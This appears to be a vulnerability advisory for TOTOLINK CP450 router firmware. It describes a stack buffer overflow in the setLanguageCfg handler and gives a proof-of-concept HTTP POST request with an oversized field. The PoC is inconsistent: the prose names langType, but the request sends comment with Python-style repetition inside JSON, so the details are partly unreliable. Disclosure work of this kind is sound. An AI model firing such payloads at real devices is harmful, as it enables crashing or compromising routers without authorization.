 ## CP450 stack buffer overflow

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

In the function `setLanguageCfg`, attackers can post the parameter `langType` to `Var` without checking its' length. 

![image-20240421163827190](./img/1.png)

Then in line 21, the call to function `sprintf` will lead to stack overflow.

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 596
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/title.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setLanguageCfg",
    "comment": "a"*0x200
}
```
